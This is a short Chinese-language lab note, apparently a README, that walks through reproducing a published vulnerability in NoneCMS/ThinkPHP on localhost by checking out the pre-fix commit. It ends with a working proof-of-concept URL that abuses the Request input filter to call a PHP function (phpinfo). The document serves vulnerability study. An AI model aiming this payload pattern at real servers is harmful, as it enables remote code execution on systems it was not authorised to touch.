 # Security-PHP-CVE
记录第一次CVE。

1、首先从公众号 得知CVE  

2、谷歌 bing 查  

3、在项目的开源项目上查到。具体出问题代码位置  （https://github.com/nangge/noneCms/issues/21）  

4、下载 项目  到网站目录下（localhost 即可）（nginx下）  

5、根据 3 知道出代码位置。 用https://github.githistory.xyz  找到thinkphp 核心代码修复修复时间  
（https://github.githistory.xyz/nangge/noneCms/blob/master/thinkphp/library/think/Request.php）

6、根据 5  的时间 ===》 在  
    https://github.com/nangge/noneCms/commits/master 找到 修复前的最后一次 commit_id

7、把项目代码退回到 出问题的 代码   
git reset --hard 712dc808448ff376d82d831410b9b53c6be4f85d
8、按照github 上提示 运行项目  
http://localhost/NoneCMS/public/install/

9、访问 http://localhost/NoneCMS/public/?s=index/\think\Request/input&filter=phpinfo&data=1

完美复现！！！
